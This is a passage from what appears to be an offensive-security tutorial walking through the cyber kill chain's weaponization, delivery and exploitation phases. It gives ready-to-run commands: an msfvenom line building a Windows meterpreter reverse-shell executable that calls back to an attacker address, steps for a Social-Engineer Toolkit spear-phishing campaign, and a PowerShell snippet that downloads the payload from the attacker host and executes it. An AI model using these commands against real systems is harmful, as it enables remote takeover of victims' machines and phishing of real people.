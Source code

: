 ```bash
# Generate a reverse shell payload for Windows using msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o malicious_payload.exe
```

This payload, `malicious_payload.exe`, will create a reverse shell back to the attacker's machine.

---

## 3. Delivery

In the **Delivery** phase, attackers deliver the malicious payload to the target. Common methods include phishing emails, USB drops, or compromising trusted websites.

### Tools & Commands

- **Social-Engineer Toolkit (SET)**: For creating and sending phishing campaigns.
- **Custom PowerShell and Batch Scripts**: Used to download and execute payloads.

### Examples

Using SET for spear-phishing:

```bash
# Launch SET
setoolkit

# Navigate: Social Engineering Attacks > Spear Phishing Attack Vectors > Mass Email Attack
# Follow prompts to customize the email message, attachment, and recipient list.
```

Alternatively, deliver payloads via **direct PowerShell execution**:

```powershell
# PowerShell command to download and execute payload
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://192.168.1.10/malicious_payload.exe", "C:\\Users\\Public\\malicious_payload.exe")
Start-Process "C:\\Users\\Public\\malicious_payload.exe"
```

This PowerShell command downloads and executes the payload on the target system.

---

## 4. Exploitation

In the **Exploitation** phase, attackers exploit a vulnerability to execute the payload, gaining access to the target system. This might involve social engineering, exploiting software vulnerabilities, or bypassing application security controls.

### Tools & Commands

- **Metasploit Framework**: For automating exploits.
- **Custom Scripts**: Such as PowerShell for executing payloads directly.
